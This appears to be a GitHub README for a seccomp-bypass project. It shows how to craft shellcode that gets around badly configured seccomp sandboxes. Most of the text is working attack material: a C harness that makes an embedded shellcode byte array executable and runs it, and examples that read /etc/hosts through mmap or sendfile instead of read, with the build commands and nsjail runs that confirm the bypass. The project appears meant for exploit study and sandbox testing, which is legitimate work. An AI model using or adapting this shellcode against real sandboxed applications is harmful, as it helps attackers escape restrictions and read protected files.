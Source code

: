 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. You need shellcode that will carry out its purpose while still adhering to the application's seccomp filter. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

**Bypasses are possible not because seccomp is flawed, but because sometimes seccomp filters are inappropriately configured. Just like an exploit takes advantage of programming mistakes, these bypasses take advantage of configuration mistakes.**

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. If it's sandboxed, you need to tailor the shellcode to include only the permitted system calls.

The code below is a generated application, contrived purely to run test shellcode from `src/`. The output is a test program that we run to confirm the shellcode's viability when injected into a foreign application.

&gt;: ./gen-shellcode.sh src/read-with-mmap.s
```c
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcodes that perform each section's goal within certain system call constraints. Each goal has one or more shellcodes using a combination of system call combinations to achieve it.

*To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy.*

## Read a file from the filesystem
Each of these examples reads the file `/etc/hosts` from the target system without using the typical `read(2)` call.
### Syscalls required: `open`,`exit`,`write`, `mmap`
This example is based on shellcode from `src/read-with-mmap.s`. You can see the line `127.0.0.1	localhost` present in the output below, which is a sign the seccomp filter is bypassed successfully.

Try replacing the `read` in the DENY clause with `open`,`exit`,`write`, or `mmap`. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.

Generate the program:
```bash
f=`tempfile`; ./gen-shellcode.sh src/read-with-mmap.s > $f.c; gcc -static $f.c -o $f
```

Now run it with `nsjail`:
```bash
>:~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $f
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Executing '/tmp/fileVRncd7' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

Below shows a default DENY policy. You'll need to allow a few more system calls to use it in this example. This is a wider set of calls than what is required of an application in the wild, which does "start > set seccomp filter > fork", because in this example case we have to interact with the OS to set up the process space first (doing an `execve` and not just a `fork`.

```bash
~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { ALLOW { read, open, write, mmap, execve, newuname, brk, arch_prctl, readlink, access, mprotect, exit } } USE a DEFAULT DENY' -- $f
```

### Syscalls required: `open`, `sendfile`
This example is based on shellcode from `src/read-with-sendfile.s`. We can get away with reading a file with just these two system calls.

```bash
>: f=`tempfile`; ./gen-shellcode.sh src/read-with-sendfile.s > $f.c; gcc -static $f.c -o $f
>: ~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read,write,mmap } } USE a DEFAULT ALLOW' -- $f
[2017-05-15T16:03:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-15T16:03:04-0700] Executing '/tmp/fileCNqBB4' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

An example with default DENY:
```bash
~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { ALLOW { open, sendfile64, execve, newuname, brk, arch_prctl, readlink, access, mprotect, exit } } USE a DEFAULT DENY' -- $f
```
